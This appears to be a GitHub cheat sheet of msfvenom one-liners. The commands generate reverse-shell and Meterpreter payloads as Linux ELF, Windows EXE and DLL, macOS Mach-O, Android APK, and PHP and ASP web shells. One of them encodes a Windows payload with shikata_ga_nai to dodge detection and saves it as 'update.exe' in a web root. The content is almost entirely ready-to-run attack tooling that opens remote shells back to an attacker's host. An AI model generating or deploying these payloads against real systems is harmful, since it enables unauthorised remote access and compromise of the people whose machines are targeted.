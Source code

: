 #### binaries

**linux**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f elf > shell.elf

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f elf -o x86_linux.elf

msfvenom -a x64 --platform Linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f elf -o x6_4linux.elf

msfvenom -a x64 --platform Linux -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f elf-so -o payload.so
```

**windows**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxxx -f exe > ./vu.exe

msfvenom --payload windows/meterpreter/reverse_tcp LHOST=********* LPORT=8080 -f exe --platform windows --arch x86 -e x86/shikata_ga_nai -i 10 > /var/www/html/update.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.3.226 LPORT=6666 -a x86 --platform Windows -f dll >x86.dll

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.3.226 LPORT=6666 --platform Windows -f dll >x64.dll
```

**mac**
```bash
msfvenom -p osx/x86/shell_reverse_tcp lhost=your-ip  lport=your-port -f macho > shell.macho

msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f macho -o payload.macho
```

**android**
```bash
msfvenom -p android/meterpreter/shell_reverse_tcp lhost=your-ip  lport=your-port -f apk > shell.apk
```

#### web

**php**
```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**asp**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f asp > shell.asp
```
